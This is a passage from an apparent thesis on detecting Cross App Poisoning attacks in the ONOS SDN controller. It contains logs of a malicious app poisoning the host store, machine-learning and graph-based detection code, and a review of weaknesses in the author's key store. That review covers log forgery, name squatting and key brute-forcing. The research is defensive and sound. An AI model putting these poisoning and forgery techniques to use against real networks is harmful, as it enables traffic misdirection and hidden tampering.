2023-04-06T09:53:12,099 | INFO  | features-3-thread-1 | MalHostTracking                  | 215 - org.onosproject.onos-malhosttracking - 2.0.0.SNAPSHOT | Malicious Host Tracking App: Locations [of:0000000000000001/1] and [of:0000000000000003/1]
2023-04-06T09:53:12,099 | DEBUG | features-3-thread-1 | DistributedHostStore             | 192 - org.onosproject.onos-core-dist - 2.7.0 | Appending location of:0000000000000001/1 to host 00:00:00:00:00:03/None
2023-04-06T09:53:12,100 | DEBUG | features-3-thread-1 | DistributedHostStore             | 192 - org.onosproject.onos-core-dist - 2.7.0 | Appending location of:0000000000000003/1 to host 00:00:00:00:00:01/None
2023-04-06T09:53:12,100 | INFO  | features-3-thread-1 | MalHostTracking                  | 215 - org.onosproject.onos-malhosttracking - 2.0.0.SNAPSHOT | Malicious Host Tracking App: Locations [of:0000000000000001/1, of:0000000000000003/1] and [of:0000000000000001/1, of:0000000000000003/1]
2023-04-06T09:53:12,100 | DEBUG | features-3-thread-1 | DistributedHostStore             | 192 - org.onosproject.onos-core-dist - 2.7.0 | Removing location of:0000000000000001/1 from host 00:00:00:00:00:01/None
2023-04-06T09:53:12,101 | DEBUG | features-3-thread-1 | DistributedHostStore             | 192 - org.onosproject.onos-core-dist - 2.7.0 | Removing location of:0000000000000003/1 from host 00:00:00:00:00:03/None
2023-04-06T09:53:12,102 | INFO  | features-3-thread-1 | MalHostTracking                  | 215 - org.onosproject.onos-malhosttracking - 2.0.0.SNAPSHOT | Malicious Host Tracking App: Locations successfully poisoned: [of:0000000000000003/1] and [of:0000000000000001/1]
2023-04-06T09:53:12,102 | INFO  | features-3-thread-1 | MalHostTracking                  | 215 - org.onosproject.onos-malhosttracking - 2.0.0.SNAPSHOT | Started malhosttracking App!
2023-04-06T09:53:12,103 | INFO  | features-3-thread-1 | FeaturesServiceImpl              | 11 - org.apache.karaf.features.core - 4.2.9 | Done.
2023-04-06T09:53:12,103 | INFO  | onos-store-app-app-activation | ApplicationManager               | 193 - org.onosproject.onos-core-net - 2.7.0 | Application org.onosproject.malhosttracking has been activated
\end{lstlisting}

It's important to notice that with only the ONOS system logs it's impossible to get useful information about what it's happening in the environment. Here a Cross Application Poisoning attack was carried out but we can't know who used the ONOS Northbound APIs to poison the host data store. Consider also that the malicious host tracking application is developed creating INFO level logs for debugging purposes. In a real attack scenario the malicious applications want to be stealthiest as possible. Using only the log entries originated from the DistributedHostStore component is impossible to create useful statistics and aggregated data for security analysis.
\medskip

The following lines are an example of the proposed solution logs while the malicious host tracking application is poisoning the host data store. The only difference in the malicious application is that now the application is continuously poisoning the store: every 500 milliseconds pick two random hosts in the host data store and swap the primary locations. In this scenario the location arrays have only one location and so the primary is also the only location present. Recall that the attack is carried out firstly adding a new location to the location arrays and then removing the old one in order to avoid having hosts with empty location arrays that will result in automatic host removal by the ONOS controller. The log entries are composed by four parts separated by a single space. The first element is the timestamp, in this case for simplicity in the analysis it's in the milliseconds from 1st January 1970 format (e.g. 1678289455507). The second element is the application name identifier (in this snippet org.onosproject.fwd and org.edoardottt.malhosttracking.app). The third element is the ONOS northbound API method that was called and all the remaining parts are the API parameters passed as input. Reading the first four lines we can understand that the reactive forwarding application called the \textbf{getHost()} API to get information about the hosts H3 and H4. The until line 12 there are only APIs called by the malicious host tracking application to poison the host data store. They are all calls to \textbf{appendLocation()} and \textbf{removeLocation()}. With respect to the ONOS system logs here it's also possible to understand which is the application poisoning the host data store. Finally in lines 12 until 17 there are the logs originated by the reactive forwarding application telling that new flow rules are needed and so a the \textbf{forward()} API is needed. The remaining lines are still the APIs used by the malicious host tracking application in order to poison the host data store. In the next sections we'll see how these logs can be used to perform detailed security analysis mainly focused on Cross Application Poisoning attack detection.
\begin{lstlisting}[language=bash]
1678289455507 org.onosproject.fwd getHost 00:00:00:00:00:03/None
1678289455509 org.onosproject.fwd getHost 00:00:00:00:00:03/None
1678289455510 org.onosproject.fwd getHost 00:00:00:00:00:04/None
1678289455525 org.onosproject.fwd getHost 00:00:00:00:00:04/None
1678289455603 org.edoardottt.malhosttracking.app appendLocation 00:00:00:00:00:03/None of:0000000000000001/1
1678289455605 org.edoardottt.malhosttracking.app appendLocation 00:00:00:00:00:01/None of:0000000000000003/1
1678289455607 org.edoardottt.malhosttracking.app removeLocation 00:00:00:00:00:01/None of:0000000000000001/1
1678289455609 org.edoardottt.malhosttracking.app removeLocation 00:00:00:00:00:03/None of:0000000000000003/1
1678289455615 org.edoardottt.malhosttracking.app appendLocation 00:00:00:00:00:04/None of:0000000000000002/1
1678289455616 org.edoardottt.malhosttracking.app appendLocation 00:00:00:00:00:02/None of:0000000000000004/1
1678289458607 org.edoardottt.malhosttracking.app removeLocation 00:00:00:00:00:04/None of:0000000000000004/1
1678289459000 org.onosproject.fwd getHost 00:00:00:00:00:02/None
1678289459001 org.onosproject.fwd forward of:0000000000000002
1678289459003 org.onosproject.fwd getHost 00:00:00:00:00:02/None
1678289459003 org.onosproject.fwd forward of:0000000000000003
1678289459005 org.onosproject.fwd getHost 00:00:00:00:00:02/None
1678289459005 org.onosproject.fwd forward of:0000000000000004
1678289459094 org.edoardottt.malhosttracking.app appendLocation 00:00:00:00:00:03/None of:0000000000000003/1
1678289459095 org.edoardottt.malhosttracking.app appendLocation 00:00:00:00:00:01/None of:0000000000000001/1
\end{lstlisting}

The following is an example of the proposed solution log entries when applications use incorrect credentials to access the authorized ONOS APIs. It's crucial to track and detect this type of behavior since we already saw there is a big problem when an application can't authenticate in order to use the APIs: mainly for security, a legitimate application would never use incorrect credentials; it could mean it's a malicious application or a legitimate application that was taken over by an attacker. This type of log entries follows the same format of the previous ones: separated by a single space, the first element is a timestamp with the same format, the second is the string \textbf{[ERROR] Wrong credentials} to easily grep this type of error in the log file. All the remaining elements are the same: application name identifying who tried to use authenticated APIs with incorrect credentials, the application private key, the API method and all the parameters for the API. It's important to notice that the key generation proposed here is just an example, so other methods can be used. It could be that an attacker that found a vulnerability in the key generation tries to use a different application name instead of trying to guess the correct application private key. As example think of the application key generation that uses the MD5 hash of the application name taken as input. Using this method a malicious application can use the application name \textbf{org.onosproject.fwd} and the application private key \textbf{515866c98edae5d654c11c35c4625037} and it can easily inject fake logs for the reactive forwarding application.
\begin{lstlisting}[language=bash]
16782823490923 [ERROR] Wrong credentials: org.edoardottt.malhosttracking.app skbwufuiwfuiwehfuiwwh appendLocation 00:00:00:00:00:04/None of:0000000000000004/1
16782823490989 [ERROR] Wrong credentials: org.onosproject.fwd key-takeover-by-attacker forward of:0000000000000004
16782823490999 [ERROR] Wrong credentials: org.onosproject.fwd 515866c98edae5d654c11c35c4625037 getHost of:0000000000000001
\end{lstlisting}

%% - Detailed Logs useful even if Security-Mode ONOS is disabled 
As written above the proposed solution logs are useful to detect Cross Application Poisoning attacks (we'll see later how), but they can help alongside ONOS system logs in monitoring and traceability. They add useful information that it's not logged by ONOS even in DEBUG mode, that is the most detailed logging level available. The proposed solution can help even when Security-Mode ONOS is completely disabled: analyzing the resulting log file it's possible to understand which APIs have been called by all the applications and so it's also possible to spot strange/unwanted API usage even when all the APIs are accessible. This situation can be also useful for both the cases Security-Mode ONOS was created for: applications accessing Southbound APIs or Administrative actions. Even with closed source applications and so in scenarios in which the network operator has only access to a compiled binary, it's possible to reverse engineer the application and understand which API is using.

\clearpage

\section{Data Mining}

%% - summary of the section (explain that this was a failed attempt but still can be used in other ways)
During the research activity, data mining and some statistical tools were used to obtain results in the detection of CAP attacks. In particular, datasets representing the API activity logs in ONOS have been created to train models for the attacks recognition. Even if this path has not produced the desired results, it could be improved in the future to help in the final goal.

\subsection{Logistic Regression}
%% - briefly explain what logistic regression is
Logistic regression is a type of statistical model used for classification and prediction. It estimates the probability for an event to happen, so the result can be a discrete value (0 or 1, likely or unlikely to happen) or a continuous value between 0 and 1. There are three types of logistic regression: Binary Logistic Regression with only two possible outcomes, Multinomial Logistic Regression with three or more outcomes and Ordinal Logistic Regression with multiple outcomes where ordering matters. The model uses statistical methods to create a sigmoid function that correlates independent and dependent variables: over a certain probability amount (typically $\geq0.5$) the result is positive, otherwise negative. This model requires a considerable amount of data to be well trained and two datasets were used: one for training and another one to test the model. Some issues were encountered considering that the starting point is a file containing logs produced by the proposed solution for CAP detection: (a) the model cannot interpret text, but only numbers; (b) all the input entries must have the same data format, both for training and testing. These problems were addressed using this solution: the logs are parsed and translated into numbers using a one to one mapping from text to integers. Then, the input entries are all composed by fifty elements, both for training and testing datasets. The lines are composed by two parts separated by a space: the first part are fifty API calls (1 for getHost(), 2 for forward(), 3 for appendLocation() and 4 for removeLocation()) in sequence, while the second one represents the result (0 for no CAP attack, 1 for CAP attack). For example, the lines below shows two entries used for testing: in the first one there is no CAP attack, while in the second we can see a location related API calls followed by flow rules installation.
\begin{lstlisting}[language=bash]
11114444111111444411111144441111114444111111444411	0
11141342141114134214111413421411141342141114134214	1
\end{lstlisting}

The following code snippet is the code used to get the data from datasets. It takes as input two parameters: the filename in which the data is stored and a positive integer representing the maximum entries to be considered. To simplify the job numpy arrays and methods were used. The function creates two arrays (X and Y) containing respectively the input entries (having dimension 50) and the outcome (0 or 1).
\begin{lstlisting}[language=python,firstnumber=24]
def read_file(filename, limit):
    x = np.zeros((0, 50))
    y = np.zeros((0, 1))
    count = 0
    with open(directory + filename, "r") as f:
        lines = f.readlines()
        for line in lines:
            count += 1
            first_input = [int(x) for x in line.split("\t")[0]]
            first_input_np = np.array(first_input)
            x = np.append(x, [first_input_np], axis=0)
            second_input = [int(line.split("\t")[1])]
            second_input_np = np.array(second_input)
            y = np.append(y, [second_input_np], axis=None)
            print("Read {}/{} lines".format(count, limit), flush=True, end="\r")
            sys.stdout.flush()
            if count >= limit:
                break

    print("", flush=True, end="\n")

    return x, y
\end{lstlisting}

Once the data is in memory (read by \textbf{read\_file()} function in line 72) the method \textbf{LogisticRegression()} from sklearn.linear\_model is used. Then, some statistics about the obtained result are printed on standard output.
\begin{lstlisting}[language=python,firstnumber=72]
    x, y = read_file(training_out_file_ml, 100000)
    model = LogisticRegression(solver="newton-cg", random_state=0)
    model.fit(x, y)
    print("Model intercept: " + str(model.intercept_))
    print("Model coef: " + str(model.coef_))
    print("Model score: " + str(model.score(x, y)))
    print("Model confusion matrix: ")
    cm = confusion_matrix(y, model.predict(x))
    print(cm)
\end{lstlisting}


\subsection{K nearest neighbours}
%% - explain what k nearest neighbours is
The second model used was K nearest neighbours (also known as KNN). Like the previous one, it can be used both for classification and regression. This model works in this way: the data points are placed in a chart in which it's possible to measure the distances between the points. There is a concept of distance measure that usually is the Euclidean distance. The K in the name means a positive integer that is used in the classification method. The closest k values to the point that need to be classified defines the classification of that point. Basically it's a majority vote, that's why it's preferred to have an odd value for K. In this case the K value chosen was 3.
\medskip

The datasets used for the training and test of the model were the same used for the previous model (so even the data format). Also the \textbf{read\_file()} function used to read the data from the datasets was the same. The only part that was changed was the following: the \textbf{KNeighborsClassifier()} (notice the parameter n\_neighbors=3) was used and some statistical computations were removed.
\begin{lstlisting}[language=python,firstnumber=72]
    x, y = read_file(training_out_file_ml, 200000)
    clf = KNeighborsClassifier(n_neighbors=3)
    clf.fit(x, y)
    print("Model score: " + str(clf.score(x, y)))
    print("Model confusion matrix: ")
    cm = confusion_matrix(y, clf.predict(x))
    print(cm)
\end{lstlisting}

\subsection{Models' score}
%% - logistic regression score
The following lines shows the output of the Logistic regression model. It takes about 200 seconds to complete the training and the tests. It was trained with one hundred thousand entries to have an acceptable result, which is 0.6. The confusion matrix tells us that on twenty thousand test entries only 12155 were correctly classified.
\begin{lstlisting}[language=bash]
Start time: 08:36:46
 ----------- Training data -----------
Read 100000/100000 lines
Model intercept: [-0.01700361]
Model coef: [[-0.06277242 ...]]
Model score: 0.61141
Model confusion matrix: 
[[53142   843]
 [38016  7999]]
 ----------- Test data -----------
Read 20000/20000 lines
Model score: 0.60775
Model confusion matrix: 
[[10602   199]
 [ 7646  1553]]
End time: 08:40:11
Time difference is 205.0 seconds
\end{lstlisting}

%% - k nearest neighbours score
The following lines instead shows the results obtained with the K nearest neighbours model. It takes 20 seconds more than the previous model to train and perform the tests. This model has an excellent score of 0.974. This means that almost the totality of the test entries were successfully categorized. The confusion matrix tells us that on twenty thousand test entries only about five hundred were wrongly categorized. 
\begin{lstlisting}[language=bash]
Start time: 16:21:24
Read 100000/100000 lines
 ----------- Training data -----------
Model score: 0.98535
Model confusion matrix: 
[[52702  1283]
 [  182 45833]]
 ----------- Test data -----------
Read 20000/20000 lines
Model score: 0.97445
Model confusion matrix: 
[[10382   419]
 [   92  9107]]
End time: 16:25:07
Time difference is 223.0 seconds
\end{lstlisting}

Differently from the previous model, K nearest neighbours works well even with a small datasets (1000 entries for training and 200 for testing).
\begin{lstlisting}[language=bash]
Start time: 16:19:45
 ----------- Training data -----------
Read 1000/1000 lines
Model score: 0.975
Model confusion matrix: 
[[520  23]
 [  2 455]]
 ----------- Test data -----------
Read 200/200 lines
Model score: 0.98
Model confusion matrix: 
[[105   4]
 [  0  91]]
End time: 16:19:45
Time difference is 0.0 seconds
\end{lstlisting}

The original idea was to parse the log file using a sliding window of fifty input entries and checks in which subsections there were possible Cross App Poisoning attacks. The main problem is the translation between text (log entries) and an interpretable format for model training and testing. Moreover, different ONOS environments have different applications and each one could require different datasets. The amount of data needed to train the model is high and so this path was not followed. This said, this technique could be helpful in attacks recognition and classification in other ways.


\clearpage

\section{Log Analysis}
Once the log file with all authorized (and unauthorized) accesses to the ONOS APIs is obtained, it is possible to carry out accurate analysis on the latter. First of all the first thing to do is to check if there are any errors in the file. There can be two types of errors: 
\begin{itemize}
    \item\texttt{An application tried to register itself with a forbidden application name}: We already said that an application cannot contain spaces. The reason is that when the log file must be parsed the space is used as separator between different elements. If an application name contains one or more spaces would be difficult to get the data properly. Otherwise it could be that an application is trying to register itself with an already registered application name. In this case, there could be a legitimate common name or a malicious application that would like to exploit a race condition to register itself with the name of a known application. As an example we can use org.onosproject.fwd, the reactive forwarding application. The malicious application may want to use this name to remain hidden in log files and confuse Cross App Poisoning attacks security analysis (we'll see how later).
    \item\texttt{An application tried to use the authorized API with wrong credentials}: It is impossible for a well-developed application to get the authentication credentials wrong. We have seen with the code in the previous pages that with a few instructions an application obtains the APPNAME and APPKEY variables; if it is well implemented these variables are never overwritten. Another possibility is that the application tried to guess the key for another application, thus performing a brute-force attack.
\end{itemize}
In both cases (and their respective subcases) an error condition is a sign of malicious or poorly implemented application. So a scan looking for errors (remember they have the [ERROR] signature, so easily greppable) is the first thing to do. If an error is found, there is no need to continue with Cross App Poisoning attack analysis because it is already obvious that a problem exists.
Otherwise, if no errors are found, the security analysis has three basic steps: (a) Build Application-Store interactions graph, (b) Find Cross App Poisoning vectors in the graph and (c) Find Cross App Poisoning vectors in the log file. The basic idea is that the log file contains all the necessary information to reconstruct the interactions between applications and data stores, i.e. the fundamental indicators for detecting potential Cross App Poisoning attacks.

\subsection{Build Application-Store interactions graph}
%% - idea
Once we get the log file and make sure it doesn't contain any errors, we will have a file where each line contains an authorized API call. Since application names cannot contain spaces, each field is separated by exactly one space character. The following is an example of some logs. We can see how the first field is always the timestamp (in sequential order), then we have the application name, the name of the authorized API used and subsequently all the parameters that have been used in the API call. So we have structured data that allows us to understand what happened inside ONOS in chronological order (essential for Cross App Poisoning attacks). The list of applications that have accessed the ONOS API is easily obtainable by scrolling through all the second fields of the log file. Given that in advance it is possible to know which APIs are exposed to the applications and which data stores they involve, given the name of an API call it is possible to "describe" the type of action performed (for example getHost() can be described as a read action on the host data store). That said, it's easy to scroll through the log file and create a bipartite graph where we have two classes of objects: applications and data stores. Scrolling line by line we can add the edges inside the graph.
\begin{lstlisting}
1678289450087 org.onosproject.fwd getHost FF:FF:FF:FF:FF:FF/None
1678289450114 org.onosproject.fwd forward of:0000000000000001
1678289455603 org.edoardottt.malhosttracking.app appendLocation 00:00:00:00:00:03/None of:0000000000000001/1
1678289457102 org.onosproject.test getDevice of:0000000000000002/1
\end{lstlisting}

To build the graph the python library used is iGraph. Since it requires the objects of the graph to be integers, there must be a translation from application and data store names to integer values. In this test few APIs were used and so the translation is really straightforward. However, if all the APIs are used another approach should be taken into account. We can see in line 3 that a dictionary is used: the first three elements are data stores, while the second three are applications.
\begin{lstlisting}[language=python,firstnumber=1]
import igraph as ig
...
objects = {
    "host": 0,
    "flow_rule": 1,
    "device": 2,
    "org.edoardottt.malhosttracking.app": 3,
    "org.onosproject.fwd": 4,
    "org.onosproject.test": 5,
}
\end{lstlisting}

The following function takes care of reading the log file (name "onos-cap.log") and for each line it splits the row by a space character and takes the second and the third fields. These fields are the application and the action (API) that are used to build the python dictionary containing the edges for the graph.
\begin{lstlisting}[language=python,firstnumber=39]
def read_log():
    with open("onos-cap.log", "r") as f:
        lines = f.readlines()
        for line in lines:
            parts = line.split(" ")
            app = parts[1]
            action = parts[2]
            edge = get_edge(app, action)
            count[edge] += 1
    return count
\end{lstlisting}

The function \textbf{get\_edge()} takes as input an application and an API name and it outputs a tuple that represents an edge in the graph. Since the graph is directed, if the first element is a data store and the second one is an application, it means that the app read from the store; otherwise it's the opposite (a tuple having the application as first element and store as second element means the application wrote in the data store).
\begin{lstlisting}[language=python,firstnumber=52]
def get_edge(app, action):
    if action == "getHost":
        return (0, objects[app])
    if action == "getDevice":
        return (2, objects[app])
    else:
        if action == "forward":
            return (objects[app], 1)
        else:
            return (objects[app], 0)
\end{lstlisting}

This function takes as input the edges dictionary and returns a dictionary having only edges without empty values (e.g. an edge with a count of at least 1 in the graph).
\begin{lstlisting}[language=python,firstnumber=52]
def clean(count):
    result = {}
    for item in count.items():
        if item[1] != 0:
            result[item[0]] = item[1]
    return result
\end{lstlisting}

This are the instructions used to build the graph and to plot it using matplotlib.
\begin{lstlisting}[language=python,firstnumber=185]
    n_vertices = 4
    g = ig.Graph(n_vertices, list(count.keys()), directed=True)
    plot(g, count)
\end{lstlisting}

This is the actual function used by matplotlib to plot the graph. The figure 3.2 shows the resulting graph. Notice how applications and data stores have different colors (salmon for applications, blue for stores). Each object has a label with its name, while the labels on the edges represents how many times the API was used. As example, the reactive forwarding application read 179 times from the host data store (using the getHost() API). 
\begin{lstlisting}[language=python,firstnumber=76]
def plot(g, count):
    # Set attributes for the graph, nodes, and edges
    g["title"] = "ONOS app-store graph"
    g.vs["name"] = ["host", "flow_rule", "device", "malhosttracking", "fwd", "test"]
    g.vs["objtype"] = ["S", "S", "S", "A", "A", "A"]
    g.es["count"] = list(count.values())

    # Plot in matplotlib
    # Note that attributes can be set globally (e.g. vertex_size), or set individually using arrays (e.g. vertex_color)
    fig, ax = plt.subplots(figsize=(5, 5))
    ig.plot(
        g,
        target=ax,
        layout="circle",  # print nodes in a circular layout
        vertex_size=0.5,
        vertex_color=[
            "steelblue" if objtype == "S" else "salmon" for objtype in g.vs["objtype"]
        ],
        vertex_frame_width=8.0,
        vertex_frame_color="white",
        vertex_label=g.vs["name"],
        vertex_label_size=10.0,
        edge_label=g.es["count"],
    )

    plt.show()
\end{lstlisting}

\begin{figure}[h]
\caption{ONOS app-store graph}
\label{fig:onos-log-graph}

\includegraphics[width=1.0\textwidth]{resources/Chapter-3/graph1.png}
\centering
\end{figure}

\subsection{Find all CAP attack vectors in the graph}
%% - idea
Once we obtain the iGraph object representing all API interactions between applications and data stores, we can get all the Cross App Poisoning attack vectors present in the graph. Recall what a  Cross Application Poisoning attack vector is: it's defined as a path in the graph starting with an application, ending in a data store and having at least three steps. In our resulting graph we have only two paths starting with an application:
\begin{itemize}
    \item malhosttracking $->$ host $->$ fwd $->$ flow\_rule
    \item fwd $->$ flow\_rule
\end{itemize}

Notice that the second path is included in the last part of the first one, so it could be ignored because we already have knowledge on that just using the first path. However, the second path is not a Cross App Poisoning attack vector because is too short. Another thing to notice is that we could check only the paths in which the tested application is involved, instead of all the Cross App Poisoning attack vectors present in the graph.

The following function takes as input the graph and returns the all the Cross App Poisoning attack vectors.
\begin{lstlisting}[language=python,firstnumber=113]
def get_cap_gadgets(g):
    temp = []
    stores = [0, 1, 2]
    apps = [3, 4, 5]

    for i in apps:
        for j in stores:
            temp.extend(ig.Graph.get_all_simple_paths(g, i, j))

    result = [elem for elem in temp if len(elem) > 3]
    return result
\end{lstlisting}

Reading the iGraph official documentation \cite{igraph-api} we can see that the method used\\ "get\_all\_simple\_paths()":
\begin{quoting}[font=itshape, begintext={"}, endtext={"}]
Calculates all the simple paths from a given node to some other nodes (or all of them) in a graph.

A path is simple if its vertices are unique, i.e. no vertex is visited more than once.

Note that potentially there are exponentially many paths between two vertices of a graph, especially if your graph is lattice-like. In this case, you may run out of memory when using this function.
\end{quoting}

Notice that:
\begin{itemize}
    \item In this case simple paths are okay since we already know which Cross App Poisoning attack vectors are present, however in real scenarios there could be paths in which vertices are visited more than once. 
    \item If Security-mode ONOS is activated, the graph can't be lattice-like since the vast majority of APIs cannot be used (recall that the resulting graph represents only used APIs, moreover the principle of least-privilege should be used).
    \item However if the graph is almost lattice-like and so we could run out of memory, consider that an huge graph means a network that has an enormous number of requirements and capabilities (by activating many applications), so hardware resources are not a problem.
\end{itemize}

\subsection{Find potentially exploited CAP attack vectors in log file}
Once we have all the possible Cross App Poisoning attack vectors, the last thing to do is figure out how to use this information to get interesting results from log file. First of all, we need to understand which APIs must be used to exploit a Cross App Poisoning attack vector, since we know in advance what the possible APIs are, we just insert them in a list of lists.
\begin{lstlisting}[]
[
    ['appendLocation', 'removeLocation'], 
    ['getHost'], 
    ['forward']
]
\end{lstlisting}
Here we see that each element of the list is itself a list, in particular we have three steps in the potential Cross App Poisoning attack and at each step one of the APIs in the list can be used. For example: \textbf{appendLocation()}, \textbf{getHost()}, and \textbf{forward()} form a potential Cross App Poisoning attack, but also \textbf{removeLocation()}, \textbf{getHost()}, and \textbf{forward()}.
\medskip

We assume that potential Cross App Poisoning attacks are exploited in a well-defined time section. In this scenario we have to search in the log file for a sequence of APIs ordered as defined in the previous list and used in the defined time space. The following is an example of a potential Cross App Poisoning attack exploited found in the log file. The chosen time section was 1000 milliseconds, notice that all the timestamps are in this range ($1678289469016-1678289468608 < 1000$).
\begin{lstlisting}[]
...
1678289468608 org.edoardottt.malhosttracking.app removeLocation 00:00:00:00:00:04/None of:0000000000000004/1
...
1678289469006 org.onosproject.fwd getHost 00:00:00:00:00:03/None
...
1678289469016 org.onosproject.fwd forward of:0000000000000002
...
\end{lstlisting}

The chosen time section is just a parameter that needs to be adjusted for various environment types, of course depending on that parameter the number of potential Cross App Poisoning attacks exponentially increase. In the last chapter (Tests, conclusions and future work) a discussion on how this methodology can be enhanced is provided.

\clearpage

% ================== CHAPTER 4 ==================
\chapter{Security}

\section{Security of the proposed solution}

This section deals with the security of the new proposed solution for the detection of malicious applications using Cross App Poisoning attacks. It is essential that the changes made to ONOS don't introduce new vulnerabilities or methods that lower the general level of security of the technologies used. The focus is on the application key store, its exposed APIs and the whole authentication keys lifecycle.

\subsection{ApplicationKeyStore}

%% Why the store cannot be poisoned
In this subsection we are going to ask questions and find answers about the security of the application key store. To understand how it's done and how it works, a detailed description of the code that makes up the data store is in the section "ApplicationKeyStore" of chapter 3. Just to recap, let's remember that these functions are implemented:
\begin{itemize}
\item obviously the public functions to activate and deactivate the application
\item the private \textbf{getKey()} method which takes an application name as input and returns the corresponding key
\item the public method \textbf{generateKey()} to generate a security key by taking an application name as input
\item the public method \textbf{accessGranted()} which takes the credentials as input and checks if they are valid
\item the public method \textbf{log()} which takes as input the authentication credentials and a string to log
\item the private method \textbf{appNameOk()} which checks if the name of an application contains spaces
\item the private method \textbf{createFile()} that takes care of creating the log file
\end{itemize}

Given this scenario, we are not interested in private methods since they cannot be exploited for malicious actions (we will see later that this is not exactly true, but there is also a solution for that problem), so we focus only on public methods, i.e. accessible to other applications. In this case \textbf{accessGranted()}, \textbf{log()}, and \textbf{generateKey()} must be reviewed.
If an attacker has access to the function "accessGranted" the only action that can be carried out is check if the given credentials are valid, no more. The only attack that is possible to carry out with this function is a brute-force attack, but as we will see in the following subsection (Key Generation and Distribution), it has a success probability that is close to zero. So we consider this function to be safe and not usable in any type of really viable attack.
\medskip

The second function that is exposed to various applications is log(). What could an attacker who decides to use this feature obtain? Consider that among the three mandatory parameters two of them are the authentication credentials (the application name and the security key). This means that if an attacker plans to inject fake logs into the log file they could potentially do so, but only for applications for which they have access to correct credentials. We will see later that if the n applications with which the production environment is deployed are well written, they do not leak any authentication data and therefore the attacker can only have access to the credentials of the malicious application. This means that the only fake logs that can be injected into the log file by the malicious application have labels with its authentication credentials. This could be a problem because a malicious application could use an API call with these parameters to pretend that it used an API call and instead just logged a string.
\begin{lstlisting}[language=Java]
applicationKeyStore.log(APPNAME, APPKEY, "removeLocation 00:00:00:00:00:04/None of:0000000000000002/1");

...
// resulting log in log file:
// 1678289474103 org.edoardottt.malhosttracking.app removeLocation 00:00:00:00:00:04/None of:0000000000000002/1
\end{lstlisting}
However, it should also be noted that the actual API calls made by the malicious application are actually logged and cannot be modified in any way.
Finally, as it has always been said, Security-mode ONOS is a security method necessary to safely use an ONOS environment. In this case, to limit the security risks to the minimum (actually cancel them completely) it is sufficient to prohibit all applications from accessing the log() API of the application key store.
\medskip

The last public method accessible to other applications that could be used for malicious actions is generateKey(). Unlike the previous one, the access to this method cannot be blocked because the applications must use it to receive the authentication key.
This method can be used in multiple malicious ways:
\begin{itemize}
    \item An application could try to register itself using a name that has nothing to do with its main tasks: for example an application that has the only purpose of host tracking registers itself (and therefore the logs that refer to the actions performed by this application will have this label) with the name "org.onosproject.routing". If the malicious application uses the APIs, the network operator can see which applications are using the APIs in the log file, but by doing so, eliminating the names of the n well-known applications, only one name remains; so the remaining name is necessarily the one the application under test registered with.
    \item A security issue that has already been somewhat addressed is the exploitation of a race condition in registering credentials with this method. Since it is not possible to control the order in which applications are registered, if the malicious application manages to register before others, it may choose a legitimate application name that may be listed for registration. For example the name "org.onosproject.fwd" (reactive forwarding application) is used for registration by the malicious application before the real reactive forwarding application. In this case we will have a clearly visible and greppable error in the log file thanks to the label "[ERROR] Key already exists". As already mentioned several times, a log with an error label means that there's something wrong.
    \item Finally, a malicious application could register multiple application names (and therefore consequently have more than one pair of valid credentials) to deceive the analysis on the log file. Let's consider the case where the malicious application registers two applications with the names "org.evil.app1" and "org.evil.app2". The malicious application could distribute API calls using the two pairs of credentials to carry out an attack and at the same time don't appear in the CAP attack vector graph (shown in the previous chapter) as an exploitable attack vector. As in the first point, the network operator has complete control of the applications that use the authenticated ONOS APIs and therefore can check that "removed" the n already tested starting applications only one remains that is the application under testing (but in this case two names remain).
\end{itemize}

That said, it is important to point this out: a malicious application could use this public method to enumerate the active applications in the ONOS environment. When the malicious application calls the generateKey() API it can figure out if a name has already been registered or not depending on the response (whether it gets the authentication key or an error message). Obviously, this would also be a brute-force attack, but the attacker can facilitate the task using a list of known or likely to be registered names (e.g. org.onosproject.fwd and other applications developed by ONOS maintainers)
\medskip

Another security issue that could affect the application key store is the Cross App Poisoning attack itself. Can this data store be injected with malicious payloads and used in a Cross App Poisoning attack? It depends. In order to conduct a Cross App Poisoning attack some entity needs to store data and in this case the only injection point is the application name which is used in application registration. At the time of writing this data store does not implement a function that returns the list of names of registered applications and therefore a read action from this data store is not possible (so a Cross App Poisoning leveraging this data store can't be performed). In the case this function is added in the future, it should be considered as a potential vector for a Cross App Poisoning attack and therefore it is necessary to pay the maximum attention to the values read (for example using input sanitization and additional security checks). That said, even if the malicious application registers with a name that is used as a payload to conduct a Cross App Poisoning attack, the workaround for this problem would be to add an instruction that logs the application name parameter with which an application tries to register. Even if the application under test registers only once and does not contain any prohibited characters (such as a space), the network operator has the possibility to read which name the application under test has chosen and evaluate whether it is a malicious payload or a legitimate name.

\subsection{Key Generation and Distribution}

%% - Is the key secure? Y 
A security problem that may arise is that the security keys produced by the application key store are easily guessable. In the event that a security key is easily guessable (or in any case within a reasonable time), this puts the entire proposed solution at risk. In this case a malicious application could use the public API accessGranted() of the application key store to understand if the credentials are valid or not. As already specified in the previous subsection, a malicious application could obtain the list of registered application names via the generateKey() public API. To avoid this first risk, application names generated by combining evocative names with pseudorandomly generated values could be used, such as "org.onosproject.fwd.eddd4aeca67d260753cbca6". In this case a malicious application would have a lot of difficulty in guessing a valid application name and at the same time the logs would have understandable names by removing the pseudorandomly generated part. Even ignoring this risk and taking into account that a malicious application has already obtained the complete list of registered application names (so a big advantage), we have to make sure that the authentication keys are secure and unguessable.
\medskip

In this scenario many authentication methods can be used, such as a password, a token, a cryptographic challenge or other more advanced encryption methods (symmetric or asymmetric key). However, a simple but effective solution has been implemented such as generating a long sequence of pseudorandomly generated values. Inside the generateKey() method (after the proper security checks) there is this piece of code taking care of generating the authentication key. The first two lines define two variables that are used as boundaries for choosing the range of characters that compose the authentication key. The ASCII (American Standard Code for Information Interchange) table is a character encoding standard to represent text in computers. Since it was invented many years ago (standard began in May 1961) it has limited data points, only 128 characters (of which only 95 are printable characters) that can be represented using seven bits. The left limit for the characters range is 48 (110000 in binary) which corresponds to zero in the ASCII representation and the right limit is 122 (1111010 in binary) which corresponds to the letter lowercase z. The third line defines the length of the authentication key. The fourth line generates a Java Random object that is used for pseudorandomly generate the characters. The remaining code is a sequential methods call in which: \textbf{random.ints(leftLimit, rightLimit + 1)} generates a stream of integers in the specified range. \textbf{filter} takes 